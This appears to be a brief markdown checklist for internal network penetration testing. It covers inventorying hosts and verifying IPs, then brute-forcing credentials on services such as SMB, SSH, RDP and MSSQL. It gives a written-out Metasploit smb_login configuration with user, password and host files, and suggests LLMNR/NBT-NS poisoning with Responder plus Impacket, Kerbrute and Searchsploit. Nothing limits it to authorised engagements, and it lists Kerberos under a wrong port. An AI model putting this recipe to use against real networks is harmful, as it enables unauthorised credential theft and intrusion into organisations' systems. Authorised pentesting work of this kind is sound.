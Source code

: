 # Steps:-
1.	First of all we want Inventory of organization 
2.	Separate IP’S of Systems, Servers, Networking Devices   
3.	Verify these IP'S Using PingInfo / AngryIPScanner
	
#   Brute-Force As Local User On These Port's 
{ FTP(21), SSH(22), Kerberos(89), SMB(139/445), LDAP(389), MSSQL(1433/1434), MYSQL(3306), RDP(3389), VNC(5900) }

# Tool 1. TIP ( But Go For SMB First ) Only For local user account
```
msfconsole
auxiliary/scanner/smb/smb_login
set PASS_FILE /root/Desktop/pass.txt
set USER_FILE /root/Desktop/user.txt
set RHOSTS file:/root/Desktop/host.txt
```
# If AD Implemented 
```
set SMBDomain ADDomain 
```
# If LOCKOUT Policy is Set Then Use 
```
set ABORT_ON_LOCKOUT true
```

# Tool 2. IMPACKET
LLMNR/NBT-NS Poising with the help of Responder 
Tools ---->>>> IMPACKET, RPC-Client, ENUM4LINUX, SMBMAP, SMBCLIENT, KERBRUTE 

Exploit Services by Searchsploit, Exploit DB
